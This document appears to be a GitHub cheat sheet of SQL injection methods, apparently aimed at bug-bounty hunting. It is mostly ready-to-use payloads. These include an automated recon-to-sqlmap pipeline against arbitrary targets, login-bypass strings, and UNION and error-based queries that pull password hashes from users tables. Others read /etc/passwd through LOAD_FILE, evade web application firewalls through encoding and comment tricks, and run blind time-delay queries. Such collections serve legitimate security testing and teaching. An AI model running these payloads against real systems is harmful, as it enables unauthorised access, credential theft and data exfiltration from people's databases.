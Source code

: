 # SQL Injection
Here are some quick methods to detect the SQL Injection vulnerability, though the methods are not limited. There are various tricks and tools.

# Methods To Find Sqli

## 1. Using Burpsuite :
```
  1. Capture the request using burpsuite.
  2. Send the request to burp scanner.
  3. Proceed with active scan.
  4. Once the scan is finished, look for SQL vulnerability that has been detected.
  5. Manually try SQL injection payloads.
  ```
## 2. Using waybackurls and other bunch of tools :
```
  1. sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
  2. cat domains | httpx | tee -a alive
  3. cat alive | waybackurls | tee -a urls
  4. gf sqli urls >> sqli
  5. sqlmap -m sqli --dbs --batch
  6. use tamper scripts
```

## 3. Using heuristic scan to get hidden parameters :
```
  1. Use subdomain enumeration tools on the domain.
  2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
  3. You can use the same method described above in 2nd point.
  4. Use Arjun to scan for the hidden params in the urls. 
  5. Use --urls flag to include all urls.
  6. Check the params as https://domain.com?<hiddenparam>=<value>
  7. Send request to file and process it through sqlmap.
```
## 4. Error generation with untrusted input or special characters :
```
  1. Submit single quote character ' & look for errors.
  2. Submit SQL specific query.
  3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
  4. Submit certain payloads that results in time delay.
```

## Authentication Bypass
```
Login Bypass - Testing for SQLi Authentication Bypass
In some cases, SQL injection can lead to authentication bypass.
By forcing the closing quote on the username value and adding an OR =1=1 statement followed by a -- comment separator and two forward slashes (//), we can prematurely terminate the SQL statement. 
admin' OR 1=1 -- //
    
Since we have appended an OR statement that will always be true, the WHERE clause will return the first user id present in the database, whether or not the user record is present. 
Because no other checks are implemented in the application, we are able to gain administrator privileges by circumventing the authentication logic.    

Error-based payload
' or 1=1 in (select @@version) -- //

Attempting to retrieve the Users table
' OR 1=1 in (SELECT * FROM users) -- //

We should only query one column at a time, try to grab only the password column from the users table:
' or 1=1 in (SELECT password FROM users) -- //

This is somewhat helpful, as we managed to retrieve all user password hashes; however, we don't know which user each password hash corresponds to. 
We can solve the issue by adding a WHERE clause specifying which user's password we want to retrieve, in this case admin.
Improving our SQLi error-based payload:
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
    
Login Bypass:
Both user and password or specific username and payload as password

' or 1=1 --
' or '1'='1
' or 1=1 --+
user' or 1=1;#
user' or 1=1 LIMIT 1;#
user' or 1=1 LIMIT 0,1;#    
```


```
# Post-Methods
## 1. Finding total number of columns with order by or group by or having :
```
  Submit a series of ORDER BY clause such as 
	  
    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.
```
## 2. Finding vulnerable columns with union operator :
```
  Submit a series of UNION SELECT payloads.
  
	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
```
* To go for the methods in more detail, go through portswigger site.
  
  https://portswigger.net/web-security/sql-injection/union-attacks

## 3. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

### 1. Database version
```
    Oracle 			  SELECT banner FROM v$version
		       		  SELECT version FROM v$instance
    
    Microsoft 			  SELECT @@version
    
    PostgreSQL 			  SELECT version()
    
    MySQL 			  SELECT @@version
```
### 2. Database contents
```
    Oracle        SELECT * FROM all_tables
	          SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    
    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    
    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL         SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### 3. Shows version, user and database name
```
   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
```
### 4. Using group_concat() function, used to concat all the rows of the returned results.
```  
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
```
## 4. Accessing system files with load_file(). and advance exploitation afterwards :
```
   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
```
## 5. Bypassing WAF :

### 1. Using Null byte before SQL query.
```
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
```
### 2. Using SQL inline comment sequence.
```
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- 
```
### 3. URL encoding
```      
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
```
### 4. Changing Cases (uppercase/lowercase)
* For more step wise detailed methods, go through the link below.

  https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
### 5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
* 1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.
     
     https://github.com/m4ll0k/Atlas
* 2. JHaddix post on SQLMAP tamper scripts.
     
     https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
        
## 6. Time Delays :
```
      Oracle 	      dbms_pipe.receive_message(('a'),10)
      
      Microsoft 	  WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT pg_sleep(10)
      
      MySQL 	      SELECT sleep(10) 
```      
## 7. Conditional Delays :
```
      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
      
      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
      
      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```      
# Resources and tools that will help gain an upper hand on finding bugs :
* Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
* HTTPX - https://github.com/encode/httpx
* GF patterns - https://github.com/1ndianl33t/Gf-Patterns
* GF (Tomnomnom)- https://github.com/tomnomnom/gf
* We can also use gau with waybackurls to fetch all urls.
* Waybackurls - https://github.com/tomnomnom/waybackurls
* Gau - https://github.com/lc/gau
* Arjun - https://github.com/s0md3v/Arjun
* Hakcrawler - https://github.com/hakluke/hakrawler


### Author :

* [@xhan1x](https://twitter.com/xhan1x)
